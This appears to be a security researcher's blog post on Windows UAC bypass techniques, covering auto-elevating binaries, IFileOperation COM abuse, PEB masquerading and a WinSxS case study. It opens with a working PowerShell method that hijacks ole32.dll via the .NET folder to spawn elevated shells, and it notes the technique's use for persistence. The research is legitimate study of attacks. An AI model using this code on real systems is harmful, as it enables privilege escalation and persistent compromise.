

'UacMethodNetOle32'
{
# Hybrid MMC method: mmc some.msc -> Microsoft.NET\Framework[64]\..\ole32.dll
# Works on x64/x32 Win7-Win10 (unpatched)
if ($OSMajorMinor -lt 6.1) {
echo "[!] Your OS does not support this method!`n"
Return
}
# Impersonate explorer.exe
echo "`n[!] Impersonating explorer.exe!"
Masquerade-PEB -BinPath "C:\Windows\explorer.exe"
if ($DllPath) {
echo "[>] Using custom proxy dll.."
echo "[+] Dll path: $DllPath"
} else {
# Write Yamabiko.dll to disk
echo "[>] Dropping proxy dll.."
Emit-Yamabiko
}
# Get default .NET version
[String]$Net_Version = [System.Reflection.Assembly]::GetExecutingAssembly().ImageRuntimeVersion
# Get count of PowerShell processes
$PS_InitCount = @(Get-Process -Name powershell).Count
# Expose IFileOperation COM object
Invoke-IFileOperation
# Exploit logic
echo "[>] Performing elevated IFileOperation::MoveItem operation.."
# x32/x64 .NET folder
if ($x64) {
$IFileOperation.MoveItem($DllPath, $($env:SystemRoot + '\Microsoft.NET\Framework64\' + $Net_Version + '\'), "ole32.dll")
} else {
$IFileOperation.MoveItem($DllPath, $($env:SystemRoot + '\Microsoft.NET\Framework\' + $Net_Version + '\'), "ole32.dll")
}
$IFileOperation.PerformOperations()
echo "`n[?] Executing mmc.."
IEX $($env:SystemRoot + '\System32\mmc.exe gpedit.msc')
# Move Yamabiko back to %tmp% after it loads to avoid infinite shells!
while ($true) {
$PS_Count = @(Get-Process -Name powershell).Count
if ($PS_Count -gt $PS_InitCount) {
try {
# x32/x64 .NET foler
if ($x64) {
$IFileOperation.MoveItem($($env:SystemRoot + '\Microsoft.NET\Framework64\' + $Net_Version + '\ole32.dll'), $($env:Temp + '\'), 'ole32.dll')
} else {
$IFileOperation.MoveItem($($env:SystemRoot + '\Microsoft.NET\Framework\' + $Net_Version + '\ole32.dll'), $($env:Temp + '\'), 'ole32.dll')
}
$IFileOperation.PerformOperations()
break
} catch {
# Sometimes IFileOperation throws an exception
# when executed twice in a row, just rerun..
}
}
}
# Clean-up
echo "[!] UAC artifact: $($env:Temp + '\ole32.dll')`n"
}
Anatomy of UAC Attacks
Hola, in this post we will look at the basic principals involved in UAC (User Account Control) bypass attacks. I will not go into to much detail on what Microsoft says UAC is or is not except here in the introduction.
UAC, introduced with Windows Vista, enables Admin users to operate their Windows machine with standard user rights as opposed to Administrative rights. By default the initial user account on Windows is part of the Administrator group, this is simply a requirement. Because of this, back in the day (pre Vista era), developers had a tendency to assume users had local admin rights and often developed their applications carelessly to require elevated privileges. The official line is that UAC was introduced as a way to curb this behavior and to provide backwards compatibility.
Be that as it may, a direct benefit of UAC is that it protects Admin users from, or alerts them to, malicious, elevated, actions performed by software components. Microsoft would not agree, but I think UAC is actually a very proficient security mechanism (if we forget about the prevalent dll side-loading issues!). Anyone who wants to argue this only needs to look at some advanced malware kit’s or exploitation frameworks such as Metasploit/Cobalt Strike, all of which include mechanisms to bypass UAC. Also, let’s not forget that Microsoft has patched a whole bunch of bypasses, eg using WUSA to extract CAB files to a specific path. It is a shame really that a solid side-loading fix can’t be implemented as doing so would greatly increase end-user safety.
Anyway, UAC always sparks vigorous debate, so I won’t say any more on the subject. Let’s poke some holes is this “compatibility” feature!
Resources:
+ Bypass-UAC (@FuzzySec) - here
+ UACME (@hFireF0X) - here
+ Bypassing Windows User Account Control (UAC) and ways of mitigation (@ParvezGHH) - here
+ “Fileless” UAC Bypass Using eventvwr.exe and Registry Hijacking (@enigma0x3) - here
+ Bypassing UAC on Windows 10 using Disk Cleanup (@enigma0x3) - here
+ Bypassing User Account Control (UAC) using TpmInit (@Cneelis) - here
+ Inside Windows 7 User Account Control (Microsoft Technet) - here
+ Inside Windows Vista User Account Control (Microsoft Technet) - here
+ User Account Control (MSDN) - here
Auto-Elevation
The main thing to understand is that process tokens created by Admin user’s are stripped of certain privileges when that process is launched normally as opposed to with elevated privileges (eg: Run as Administrator..). We can easily verify this by dumping token privileges using Get-TokenPrivs or with Sysinternals process explorer. The screenshot below shows two instances of “cmd.exe”, one launched normally and one launched as Administrator.

Essentially, users belonging to the Administrator group manage their machine with the same privileges as other users. So what is the difference really between high and low priv users? Not very much when it comes down to it, elevated action still require this token change and, depending on the UAC setting, may notify the user/ask for a password.
Crucially though, on the middle two UAC settings, one of which is the default, a number of Windows programs will auto-elevate if the user belongs to the Administrator group. These binaries can be identified by dumping their manifest as shown below.
An easy way to find these binaries is to recursively dump strings and search for “autoElevate>true”. The logic here is that these binaries are signed by Microsoft; given their provenance and that the user is an Administrator, there is no need to prompt in order to elevate (in other words it’s a usability feature).
This seems reasonable until you open process monitor and find out just how bad binaries are at successfully loading resources they need (not only dll’s but also registry keys). Unfortunately this provides a malicious user with ample hijacking opportunities.
The example below shows a well know case where MMC is used to elevate RSOP, RSOP in turn tries to load “wbemcomn.dll” with high integrity (= as Administrator).
The ridiculous thing is that, looking at the filtered output, there are at least three other UAC “0days” here (..sigh). If anyone wants to submit a pull request to Bypass-UAC, knock yourself out!
Elevated File Operations
You may be thinking, “b33f has lost his marbles, these dll’s are in a secure directory”! Just like the binaries we discussed above, there are also auto-elevating COM objects (elevated COM operations deserve their own post really). One of these COM objects is of particular use to us, IFileOperation. This COM object contains a lot of useful methods such as copy/move/rename/delete for filesystem objects (files and folders).
Traditionally, the attacker writes a dll which instantiates the IFileOperation COM object and executes a method which moves the attackers file(s) to the protected directory (eg: C:\Windows\System32\wbem\wbemcomn.dll as in the example above). To get the COM object to auto-elevate the dll is injected into a medium integrity process running in a trusted directory, commonly “explorer.exe” (-> fdwReason == DLL_PROCESS_ATTACH). Sample dll source can be found in @ParvezGHH post here.
As it turns out, however, there is a more flexible way to wield IFileOperation methods that won’t trigger alarm bells by injecting dll’s all over the place. COM objects rely on the Process Status API (PSAPI) to identify which process they are running in. The funny thing is that the PSAPI parses the process PEB to get this information but an attacker can get a handle to their own process and overwrite the PEB to fool the PSAPI and as a result any COM objects instantiated from the spoofed PID (= mind blown)!
I wrote a PowerShell POC, Masquerade-PEB, to illustrate this. In the example below PowerShell is masqueraded as explorer and Sysinternals process explorer is evidently also fooled..
Case Study: WinSxS, UAC 0day all day
The default UAC setting is really nothing more than a placebo, thanks @hFireF0X for making me cynical! For our first case study we will have a look at the Windows Side-By-Side (WinSxS) dll loading issue.. WinSxS was introduced in Windows ME as a solution to the so called “dll hell” issue. Basically it is similar to a global assembly cache, when a binary needs access to a specific library it can reference the version of that library in it’s manifest and the OS will then proceed to load the relevant dll from the WinSxS folder (C:\Windows\WinSxS).
For our case study, we will have a look at the auto-elevating Microsoft Remote Assistance binary (C:\Windows\System32\msra.exe). Below we can see the binary’s manifest.

Notice the dependency section, msra needs some version of the “Microsoft.Windows.Common-Controls” library. Let’s see what happens in process monitor when we execute msra.
At some point msra looks for a directory called “msra.exe.Local”, when it does not find that folder it accesses “C:\Windows\WinSxS” and loads the library specified in it’s manifest. The dotlocal folder can be used, legitimately, by a developer for debugging purposes (frowning face..). Can you guess what happens when we create the following directory structure.
# We can do this using elevated IFileOperation COM object methods
C:\Windows\System32\
|__> msra.exe.Local
|___> x86_microsoft.windows.common-controls_6595b64144ccf1df_6.0.10586.494_none_ea85e725b9ba5a4b
So much *facepalm*, all we need to do to bypass UAC at this point is use the IFileOperation COM object to create that folder with a payload dll and execute msra from the command line. This is slightly oversimplified because the payload dll will likely have to forward some dll exports but you get the idea. If anyone wants to submit a pull request to Bypass-UAC, knock yourself out!
The reason I picked WinSxS as a case study is that you will literally see this issue everywhere when you start to look at auto-elevating binaries. I highly recommend that you read this thread KernelMode.
Case Study: Hijacking Ole32.dll with .NET => Bypass-UAC
Since there are a lot of moving parts to this type of UAC bypass (using elevated COM) I created a PowerShell framework to take care of all the heavy lifting. Bypass-UAC has a few different components: (1) Masquerade-PEB which takes care of the process spoofing, (2) Invoke-IFileOperation which exposes the IFileOperation COM object methods to PowerShell and (3) Emit-Yamabiko which drops a payload dll to disk.
For the last case study I looked for a relatively simple UAC “0day”, I wanted something that didn’t require me to update Yamabiko and that would work on x32/x64 Win7-Win10. In the end I settled on abusing the load behavior of the .NET framework. There are lot’s of ways to trigger the erroneous loading behavior but to bypass UAC we will be using MMC (any *.msc will do).
Profiling MMC:
Let’s see what happens in process monitor when we launch “mmc gpedit.msc” (filtered on: Command line has “mmc”, name name not found and path has “dll”). The screenshots below show the results on Win 7 and Win 10 respectively.
Win7
Win10
Yikes, both OS versions have some scary entries! However, disregarding the oddballs and those entries that don’t overlap, we are left with “MFC42LOC.DLL” and “ole32.dll”. MFC42LOC needs some further investigation, I’ve seen it a few times but it doesn’t seem to play nice. Ole32 on the other hand proved to be a suitable candidate.
Hijacking Ole32:
One issue we will need to tackle is that the dll is obviously loaded from a different directory, a brief investigation reveals that it looks for ole32 in the default .NET version folder. We can get that version using the following PowerShell command.
# Win 7 PS C:\> [System.Reflection.Assembly]::GetExecutingAssembly().ImageRuntimeVersion v2.0.50727 # Win 10 PS C:\> [System.Reflection.Assembly]::GetExecutingAssembly().ImageRuntimeVersion v4.0.30319
The other, non-apparent, issue is that the Yamabiko proxy dll in Bypass-UAC opens PowerShell but PowerShell itself triggers this erroneous loading bug resulting in infinite (elevated) shells popping... To avoid this behavior we have to detect that our payload dll was loaded and then remove it so it only executes once!
Bypass-UAC Implementation:
Adding methods to Bypass-UAC is really easy, if you want to know more please check out the project on GitHub! To get our bypass working I added the following method, this should hopefully be more or less self-explanatory. Don’t hesitate to leave a comment if you have any questions!
Case closed, we have a novel UAC bypass that works everywhere! The screenshots below demonstrate the bypass on Windows 8 (x64) and Windows 10 (x32).
Win8 x64
Win10 x32
On a side note, this is a pretty good persistence mechanism with elevated access. Drop a wrapper dll for ole32 in the .NET framework folder and schedule anything that uses .NET to run on startup/idle (eg: PowerShell).
Final Thoughts
If you made it this far, I think you can see why Microsoft doesn’t acknowledge UAC bypasses (aside from the standard “It’s not a security feature” line).. Honestly, I think the best way to get UAC on track is to aggressively patch mechanisms that allow the attacker to perform elevated copy operations (just like they did with WUSA) and leave the dll side-loading issues as they are.
Before you go, make sure to check out @enigma0x3 post on a fileless UAC bypass using event viewer here, obviously a situation where you don’t need to drop anything to disk is always preferable!